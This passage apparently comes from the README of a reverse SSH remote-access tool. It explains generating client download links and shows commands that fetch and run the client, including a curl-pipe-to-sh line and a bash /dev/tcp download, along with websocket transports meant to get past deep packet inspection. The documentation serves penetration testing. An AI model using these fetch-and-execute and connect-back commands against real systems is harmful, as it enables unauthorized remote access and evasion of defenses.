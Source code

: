 ```sh
        --working-directory     Set download/working directory for automatic script (i.e doing curl https://<url>.sh)
        --ws    Use plain http websockets as the underlying transport
        --wss   Use TLS websockets as the underlying transport
        -C      Comment to add as the public key (acts as the name)
        -l      List currently active download links
        -o      Set owners of client, if unset client is public all users. E.g --owners jsmith,ldavidson
        -r      Remove download link
        -s      Set homeserver address, defaults to server --external_address if set, or server listen address if not

# Generate a client and serve it on a named link
catcher$ link --name test
http://your.rssh.server.internal:3232/test
```

Then you can download it as follows:

```sh
wget http://your.rssh.server.internal:3232/test
chmod +x test
./test
```

Or you can use raw tcp to download the client binary:
```sh
bash -c "exec 3<>/dev/tcp/your.rssh.server.internal/3232; echo RAWtest>&3; cat <&3" > test
```
The format for this is just `RAW` followed by the filename, i.e in this case `test`, rssh can autogenerate this for you with `--raw-download`.

The RSSH server also supports `.sh`, `.py` and `.ps1` URL path endings which will generate a script you can pipe into an intepreter:
```sh
curl http://your.rssh.server.internal:3232/test.sh | sh
```

### Alternate Transports (HTTP/Websockets/TLS)
The reverse SSH server and client both support multiple transports for when deep packet inspection blocks SSH outbound from a host or network. 
You can either specify the connect back scheme manually by specifying it as a url in the client. 

E.g
```sh
./client -d ws://your.rssh.server:3232
```

Or by baking it in with the `link` command. 
```sh
ssh your.rssh.server -p 3232 link --ws --name test
```

### Bash autocomplete
